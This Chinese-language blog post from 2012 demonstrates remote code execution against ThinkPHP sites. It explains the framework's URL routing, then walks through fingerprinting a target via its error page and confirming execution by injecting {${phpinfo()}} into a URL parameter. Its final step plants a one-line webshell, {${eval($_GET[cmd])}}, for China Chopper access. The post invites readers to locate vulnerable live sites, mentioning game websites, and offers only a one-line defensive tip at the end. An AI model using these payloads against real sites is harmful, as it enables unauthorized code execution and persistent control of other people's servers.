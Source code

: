 title: "ThinkPHP远程执行漏洞利用"
id: 109
date: 2012-07-06 00:56:10
tags: 
- thinkPHP漏洞
categories: 
- 原创作品
- 技术文章
---

睡前一篇文章已经成为习惯，今天就给大家展示一个thinkphp漏洞的利用，其实这个漏洞已经爆出来很久了。只不过很少有人发布这样的文章而已。

先说下ThinkPHP的url规则,这个url规则是thinkPHP默认规则，当然也可以通过路由重写来实现各种你想要的效果。先看看ThinkPHP默认的规则：

>http://www.creturn.com/index.php/news/view/1

分析下这个url

>http://www.creturn.com/index.php  这个是入口

>/news/view/1  其中第一个参数news是指ThinkPHP中的模块，view指的是ThinkPHP中的方法，而后面的参数1则是参数。而漏洞恰巧出在对参数过滤不严格上面了。导致可以提交php方法上去远程执行。

还是事例来进行演示：

先找一个有thinkPHP漏洞的站点，具体怎么找就不说了。因为ThinkPHP在国内PHP框架中使用的还是比较广泛的，所以存在漏洞的站点，尤其很多大型站点都采用了ThinkPHP框架

据我了解不少游戏官网就是用thinkPHP作为底层开发框架的。好了不废话了看图。

在存在漏洞的页面中输入:www.creturn.com/index.php/fuck
<!--more-->
好吧，为什么是fuck？前面已经说了第一个参数是模块那么系统肯定找不到模块的，所以出错信息：

[![](http://www.creturn.com/asset/uploads/2012/07/think1.png "think1")](http://www.creturn.com/asset/uploads/2012/07/think1.png)

可以看到是thinkPHP框架

那么测试一下站点是否存在远程执行漏洞。

注意你的参数不要远程执行命令不能直接卸载index.php 后面的两个参数，最少要是第三个，前面已经说了第一个参数是模块，第二个参数是是方法。而从第三个开始是参数，因为此漏洞就是对参数过滤不严格并且导致可执行远程命令

找到一个这样的连接:

>http://www.creturn.com/index.php/article/show/id/116

很明显可以看到他id后面跟的一个116.用漏洞命令替换它看看是否存在漏洞

远程执行命令参数{${PHP代码}}，替换后就是：

>http://www.creturn.com/index.php/article/show/id/{${phpinfo()}}  加一个PHP的探针

测试下看是否能够执行此命令：

[![](http://www.creturn.com/asset/uploads/2012/07/think2.png "think2")](http://www.creturn.com/asset/uploads/2012/07/think2.png)

可以看到已经解析了。那么就证明此站点存在远程执行漏洞，那么我们可以直接写入菜刀的一句话：

一句话命令：{${eval($_GET[cmd])}} 替换之前的命令然后用菜刀连接

>地址为：http://www.creturn.com/index.php/article/show/id/{${eval($_GET[cmd])}}

菜刀连接看下效果：

[![](http://www.creturn.com/asset/uploads/2012/07/think3.png "think3")](http://www.creturn.com/asset/uploads/2012/07/think3.png)

好吧，就到这里。上面的真实地址我都替换掉了，目的只是演示thinkPHP远程执行命令的方法。还有就是提醒各位使用thinkphp框架的朋友，开发完东西后记住把debug模式关掉要不然很容以就看出是thinkphp的框架。
